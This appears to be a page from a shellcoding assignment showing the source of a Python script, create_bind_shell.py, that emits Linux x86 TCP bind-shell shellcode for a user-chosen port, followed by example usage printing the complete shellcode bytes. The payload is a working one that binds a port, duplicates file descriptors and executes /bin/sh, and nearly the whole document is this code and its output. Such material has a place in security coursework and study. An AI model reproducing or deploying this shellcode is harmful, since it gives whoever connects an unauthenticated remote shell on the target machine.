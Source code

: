 ```python
if not options.port:
    parser.print_help()
    exit(1)

if options.port < 1 or options.port > 65535:
    print("Invalid port number.")
    exit(1)

shellcode = (
        "\\x31\\xc0\\x89\\xc3\\x50\\xb0\\x66\\xb3\\x01\\x53\\x6a\\x02\\x89\\xe1\\xcd"
        "\\x80\\x89\\xc7\\xb0\\x66\\x5b\\x5b\\x43\\x66\\x68" + convert_to_hex(options.port) +
        "\\x66\\x6a\\x02\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xcd\\x80\\xb0\\x66"
        "\\xb3\\x04\\x6a\\x01\\x57\\x89\\xe1\\xcd\\x80\\xb0\\x66\\xfe\\xc3\\x52\\x52"
        "\\x57\\x89\\xe1\\xcd\\x80\\x31\\xc9\\x89\\xc3\\xb0\\x3f\\xcd\\x80\\xb0\\x3f"
        "\\x41\\x83\\xf9\\x02\\x7e\\xf6\\xb0\\x0b\\x31\\xd2\\x52\\x68\\x6e\\x2f\\x73"
        "\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x89\\xd1\\xcd\\x80\\xb0\\x06\\x89"
        "\\xfb\\xcd\\x80")

print(shellcode)
```

### Example usage
```
[sengen@manjaro-x86 assignment1]$ python create_bind_shell.py -h
Usage: create_bind_shell.py [options]

Generates TCP Bind Shell shellcode.

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  Port to bind to
[sengen@manjaro-x86 assignment1]$ python create_bind_shell.py -p 4480
\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x5b\x43\x66\x68\x11\x80\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x01\x57\x89\xe1\xcd\x80\xb0\x66\xfe\xc3\x52\x52\x57\x89\xe1\xcd\x80\x31\xc9\x89\xc3\xb0\x3f\xcd\x80\xb0\x3f\x41\x83\xf9\x02\x7e\xf6\xb0\x0b\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xb0\x06\x89\xfb\xcd\x80
```

